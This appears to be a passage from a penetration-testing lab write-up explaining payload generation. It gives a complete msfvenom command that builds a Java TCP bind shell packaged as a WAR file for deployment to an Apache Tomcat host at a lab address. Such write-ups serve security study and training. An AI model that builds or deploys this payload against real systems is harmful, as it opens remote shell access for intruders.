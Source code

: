 ![virtual infosec](image-16.png)



## Generating Payloads

I was able to generate payloads using a tool called **msfvenom**

To generate a payload that can trigger a **TCP bind shell** with **msfvenom**, assuming the host is 10.10.10.55 and runs on an Apache Tomcat web server(Java based), we use the **syntax command**:

> msfvenom -p java/shell/bind_tcp LPORT=9005 RHOSTS=10.10.10.55 -f war -o payload.war

![alt text](image-17.png)
